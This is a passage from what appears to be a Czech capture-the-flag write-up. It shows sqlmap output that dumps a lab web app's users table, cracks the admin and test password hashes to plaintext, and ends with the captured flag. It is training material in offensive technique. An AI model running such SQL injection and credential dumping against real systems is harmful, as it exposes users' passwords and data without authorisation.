[22:35:46] [INFO] cracked password 'Princess25' for user 'admin'                                                                                                                                                  
[22:36:36] [INFO] cracked password 'testtest' for user 'test'                                                                                                                                                  
Database: myapp                                                                                                                                                                                                   
Table: users
[2 entries]
+----+----------+-------------------------------------------------------+
| id | username | password_hash                                         |
+----+----------+-------------------------------------------------------+
| 1  | admin    | d2982588f016f8dfd57a3fc4ac071cc013a8666a (Princess25) |
| 2  | test     | 51abb9636078defbf888d8457a7c76f85c8f114c (testtest)   |
+----+----------+-------------------------------------------------------+

[22:37:32] [INFO] table 'myapp.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.99.25.100/dump/myapp/users.csv'
[22:33:32] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.99.25.100'
[22:37:32] [WARNING] your sqlmap version is outdated

[*] ending @ 22:37:32 /2025-10-26/

```

## Vlajka

    FLAG{BCba-VkYk-Kw3N-HFPw}
